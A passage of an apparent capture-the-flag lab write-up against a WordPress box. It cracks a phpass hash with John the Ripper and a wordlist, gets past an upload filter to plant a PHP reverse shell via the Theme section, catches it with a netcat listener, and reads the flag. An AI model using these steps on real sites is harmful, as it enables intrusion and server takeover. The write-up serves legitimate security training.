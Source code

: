   ```
  echo '$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1' > hash.txt

  cat hash.txt   
  $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
  
  john --wordlist=/rockyou.txt hash.txt                   
  Using default input encoding: UTF-8
  Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
  Cost 1 (iteration count) is 8192 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  teddybear        (?)     
  1g 0:00:00:00 DONE (2025-05-25 21:06) 25.00g/s 14400p/s 14400c/s 14400C/s jeffrey..parola
  Use the "--show --format=phpass" options to display all of the cracked passwords reliably
  Session completed.
  ```

---

## ⚙️ Shell Access

- After you login, you must upload the shell through `Theme` section since `Media` section will deny it. When you upload it, it will say that it can't be installed but you can still find a shell in `Media`.

- Find the shell in `Media` and click on it to get the full path. I used classic PentestMonkey `php-reverse-shell.php`.

  ```
  file url: /wp-content/uploads/2025/05/monkey.php

  10.10.91.214/wp-content/uploads/2025/05/monkey.php
  
  nc -lvnp 4444                          
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.91.214] 53830
  Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
   13:23:17 up 36 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Read the flag and assert dominance.

  ```
  $ find / -name flag.txt 2>/dev/null
  /home/stux/flag/flag.txt
  
  $ cat home/stux/flag/flag.txt   
  thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}
  ```
  